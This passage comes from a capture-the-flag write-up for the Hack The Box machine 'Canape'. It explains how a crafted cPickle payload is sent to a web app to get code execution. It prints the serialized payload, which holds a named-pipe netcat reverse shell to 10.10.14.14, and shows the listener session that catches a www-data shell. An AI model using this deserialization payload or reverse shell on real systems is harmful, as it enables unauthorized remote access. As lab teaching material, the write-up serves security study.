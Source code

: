 We first start off by importing all the necessary modules we need, then defining a class object which executes a reverse shell utilzing the `mknod` method, since most likely `nc -e` isn't on the box.

Next we use cPickle to serialize our code to execute and put it in the `quote` variable.

Now here is an interesting part that took a while to figure out. We know that we have to have a character in the whitelist submitted under `char`. However if we submit this string as is it will cause our code to not execute when deserialized. So what we can do is essentially make `char` a string to be deserialized in cPickle which will make it valid non-executable code by adding `(S'` to the front of the string. We also add `\n` for the line break to prevent the concatenation we saw earlier. If you're wondering how I came up with this, you can view the deserialized data in a python terminal to see what cPickle dumps and you get something like this:

```python
cposix
system
p1
(S'rm -f /var/tmp/backpipe; mknod /var/tmp/backpipe p; nc 10.10.14.14 443 0</var/tmp/backpipe | /bin/bash 1>/var/tmp/backpipe'
p2
tp3
Rp4
```

Notice how our mknod string is prefaced with `(S'` and the closed with a single quote. There may be other ways, but this method gets the job done. 

Moving back to our python script, we then hash both `char` and `quote` combined and store as a variable in `p_id` to call later.

Next we define both of our URLs to POST to.

Then using the requests module we create a client for POST'ing and first POST to `submit` with both `char` and `quote` as data. 

Finally we POST to `/check` with `id` as our data to execute the code.

Using a netcat listener we can catch our shell after running our script.

```
root@kali:~/htb/canape# python script.py
```

```
root@kali:~/htb/canape# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.70] 58452
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@canape:/$
```

Whew! 

## Privilege Escalation to homer
